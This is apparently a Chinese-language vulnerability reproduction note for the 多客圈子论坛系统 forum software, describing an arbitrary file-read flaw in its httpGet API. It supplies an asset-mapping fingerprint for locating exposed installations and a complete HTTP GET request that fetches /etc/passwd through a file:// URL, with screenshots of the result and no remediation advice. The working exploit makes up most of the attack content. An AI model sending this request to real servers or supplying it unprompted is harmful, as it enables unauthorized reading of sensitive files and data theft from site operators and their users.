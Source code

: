 # 多客圈子论坛系统httpGet存在任意文件读取漏洞

# 一、漏洞简介
多客圈子论坛系统是一种在线社区平台，旨在为用户提供一个共享知识、经验和想法的空间。社交圈子论坛系统除了提供基本的社交功能外，还可以根据用户行为和兴趣为用户推荐相关内容。 多客圈子论坛系统 httpGet接口处存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。 

# 二、影响版本
+ 多客圈子论坛系统

# 三、资产测绘
```plain
body="/static/index/js/jweixin-1.2.0.js"
```

![1718072652587-1ddcb3fb-c3f2-46eb-a86c-0cfe7e1e8eb5.png](./img/LMSv_axjAY4hGuYk/1718072652587-1ddcb3fb-c3f2-46eb-a86c-0cfe7e1e8eb5-274680.png)

# 四、漏洞复现
```http
GET /index.php/api/login/httpGet?url=file:///etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![1718072728134-f5bfd022-8381-475a-8997-199ef1af84da.png](./img/LMSv_axjAY4hGuYk/1718072728134-f5bfd022-8381-475a-8997-199ef1af84da-138441.png)



> 更新: 2024-06-17 09:34:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gv2apt8f7pypg1nt>